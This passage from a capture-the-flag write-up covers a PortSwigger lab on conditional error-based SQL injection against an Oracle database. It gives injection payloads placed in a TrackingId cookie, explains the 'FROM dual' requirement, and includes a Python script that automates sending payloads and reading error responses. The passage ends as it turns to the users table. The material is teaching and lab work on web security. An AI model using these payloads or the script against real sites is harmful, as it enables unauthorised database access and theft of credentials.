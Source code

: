 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-12/images/Pasted%20image%2020221207044723.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-12/images/Pasted%20image%2020221207044743.png)

We indeed triggered an error.

**Next, we need to find out it's really doing a SQL query:**
```sql
3UMSejaDQcnYpBjx'||(SELECT '')||'
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-12/images/Pasted%20image%2020221207055814.png)

Still error?? Looks like it's using Oracle database. In SQL injection [lab 7](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-7/README.md), we found that Oracle database **must have `FROM` clause in `SELECT` statement.**

To solve this problem, **we can use the `dual` in-memory table:**

```sql
3UMSejaDQcnYpBjx'||(SELECT '' FROM dual)||'
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-12/images/Pasted%20image%2020221207055839.png)

No error this time!

Now, we can confirm that it's vulnerable to **conditional error-based SQL injection**!

**Also, for the sake of automation, I'll write a simple python script:**
```py
#!/usr/bin/env python3

import requests

url = 'https://0ab600a003b6a83bc3051eae001f006b.web-security-academy.net/'

trackingid = 'YOUR_TRACKINGID'
payload = f"""{trackingid}PAYLOAD_HERE"""

cookie = {
	'session': 'YOUR_SESSIONID',
	'TrackingId': payload
}

r = requests.get(url, cookies=cookie)

if r.status_code == 200:
	print('No error')
else:
	print('Error occurred')
```

Then, the lab background provided a table called `users`, and it has 2 columns: `username` and `password`.
